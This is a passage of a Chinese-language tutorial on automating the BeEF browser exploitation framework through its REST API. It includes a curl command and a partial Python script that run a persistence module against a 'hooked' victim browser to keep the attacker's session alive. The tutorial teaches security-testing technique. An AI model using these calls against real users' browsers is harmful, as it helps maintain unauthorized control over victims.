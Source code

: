 
<p nodeIndex="132">我们可以发现，每一个模块都有对应的id号。我们在beef控制台里随便找一个，也可以找到这个id。但是需要注意一下，这个id号会因为你BeEF模块数目的不同有所变化，在编写代码之前你应该确认这个id号。</p>


<p nodeIndex="134">如果你请求的格式像这样： /api/modules/130?token=xxxxx ， 即modules后面加上了具体的模块id号，那么可以得到这个模块的详细信息，比如需要的参数等</p>
<p nodeIndex="135">所以，如果想要调用某个模块，我们只需要知道这个模块的id，并且在发送请求的的时候提供该模块需要的参数即可。执行模块时请求的格式是这样的　/api/modules/:session/:module_id （session是被hook的浏览器会话，module_id即为beef模块的id号）</p>
<p nodeIndex="136">需要注意的是，提交参数时，Content-Type必须为json类型,字符集为 UTF-8，并且请求的主体内容必须是有效的json数据，这在后文有实例。</p>


<h3 nodeIndex="138">执行BeEF模块</h3>
<p nodeIndex="139">举个调用例子。</p>
<p nodeIndex="140">这里使用一个简单的权限维持模块 Confirm Close Tab。这个模块的作用是，受害者在试图关闭选项卡时会向用户显示”关闭确认”对话框，通过这种方式来增加shell的存活时间。相关功能的模块还有 Man-In-The-Browser，Create Foreground iFrame，Create Pop Under。</p>


<p nodeIndex="142">我们可以看到，这个模块id为177，不需要提供其他参数，那么我们可以用curl模拟这种格式的请求来执行该模块</p>
<pre nodeIndex="143">
<code nodeIndex="495">curl -i -H "Content-Type: application/json; charset=UTF-8" -d '{}' http://xxxxx/api/modules/浏览器session/模块id?token=xxxx</code>
</pre>


<p nodeIndex="145">虽然模块不需要额外的参数，但是因为请求主体必须为json格式，所以我们用 -d ‘{}’ 发送空数据。此时beef终端会有执行成功的提示。</p>
<p nodeIndex="146">如果你没有这个参数，就会报如图中 Invalid JSON input for module ’177′ 的错误</p>


<p nodeIndex="148">在浏览器中验证，当我们点击关闭这个页面时，会弹出确认框，说明成功加载了这个模块。</p>


<p nodeIndex="150">同样的，我们可以编写脚本执行该模块</p>
<pre nodeIndex="151">
<code nodeIndex="500"><span nodeIndex="501">#</span><span nodeIndex="502">!/usr/bin/env python</span><span nodeIndex="503">
# </span><span nodeIndex="504">-*- coding=utf-8 -*-</span><span nodeIndex="505">
#</span><span nodeIndex="506"> ** Author: ssooking</span>

<span nodeIndex="507">import</span> json
<span nodeIndex="508">import</span> urllib2

<span nodeIndex="509">def</span> sendConfirm(host, sessionId, authkey):
    postdata = <span nodeIndex="510">'</span><span nodeIndex="511">{}</span><span nodeIndex="512">'</span>
    url = host + <span nodeIndex="513">"</span><span nodeIndex="514">api/modules/</span><span nodeIndex="515">"</span> + sessionId + <span nodeIndex="516">"</span><span nodeIndex="517">/177?token=</span><span nodeIndex="518">"</span> + authkey
    <span nodeIndex="519">print</span> <span nodeIndex="520">"</span><span nodeIndex="521">[+] URL: </span><span nodeIndex="522">"</span> + url
    req = urllib2.Request(url, postdata)
    req.add_header(<span nodeIndex="523">"</span><span nodeIndex="524">Content-Type</span><span nodeIndex="525">"</span>, <span nodeIndex="526">"</span><span nodeIndex="527">application/json; charset=UTF-8</span><span nodeIndex="528">"</span>)
    f = urllib2.urlopen(req)
    <span nodeIndex="529">print</span> f.read()
